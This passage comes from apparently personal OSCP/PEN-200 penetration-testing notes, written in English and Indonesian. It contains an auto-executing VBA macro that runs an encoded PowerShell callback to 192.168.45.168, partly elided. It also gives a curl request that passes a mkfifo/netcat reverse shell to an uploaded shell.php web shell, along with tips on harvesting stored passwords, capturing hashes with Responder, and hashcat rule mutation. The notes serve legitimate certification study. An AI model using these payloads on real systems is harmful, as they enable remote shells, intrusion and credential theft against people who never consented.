 26. MySQL, search for specific user
```sql
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```

27. IF STUCK, TEST ALL INPUT ON THE WEB, ESPECIALLY FOR SQLI

28. EXPLOITING MACRO (.doc or .odt) ==> https://medium.com/@ardian.danny/oscp-practice-series-59-proving-grounds-craft-4b86a013924d ([OSCP Practice Series 59]) Proving Grounds — Craft)

```cmd (VBA MACRO) (PEN-200 CLIENT-SIDE ATTACK)
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell -e JABzAD0AJwAxADkAMgAuADEANgA4AC4ANAA1"
	Str = Str + "AC4AMQA2ADgAOgAxADIAMwA0ACcAOwAkAGkAPQAnADgAYwBmAG"
	Str = Str + "EAOQBkADAAYQAtADMAYgBjADUANwBjADcANgAtAGMAZAA5AGUA"
	Str = Str + "NwBmAGUANAAnADsAJABwAD0AJwBoAHQAdABwADoALwAvACcAOw"
	...
	Str = Str + "JwAgACcAKQB9ACAAcwBsAGUAZQBwACAAMAAuADgAfQA="
    CreateObject("Wscript.Shell").Run Str
End Sub
```

29. KALO BUTUH NAMA OR EMAIL, JGN LUPA CEK EXIFDATA DARI FILE KYK PDF, TXT, ETC.
`exiftool -a -u <file_name>`

30. CURL URLENCODE (get request)
```bash
curl --get https://192.168.209.45/uploads/shell.php -k --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.168 1234 >/tmp/f"
```
31. CEK FIREFOX, PASSWORD MANAGER, APAPUN ITU YG MEMUNGKINKAN BUAT NYIMPEN PASSWORD

32. MISAL KITA DAPET AKSES TAPI GK PUNYA PASSWORD DAN BUTUH PASSWORD. Responder aja. Query SMB ato http ke responder kali.



31. Hashcat rule

## MUTATING WORDLISTS

1. How to use
```bash
hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force
```
2. List rule
```bash
/usr/share/hashcat/rules
```
3. Custom rules
```bash
https://hashcat.net/wiki/doku.php?id=rule_based_attack
$ ==> Append
^ ==> Prepend
c ==> Capitalize
u ==> Uppercase all letter
d ==> Double the letter (password jadi passwordpassword)
```
```demo.rule (HARUS PERKARAKTER, GK BOLEH KYK $123!)
$1 c $!
$2 c $!
```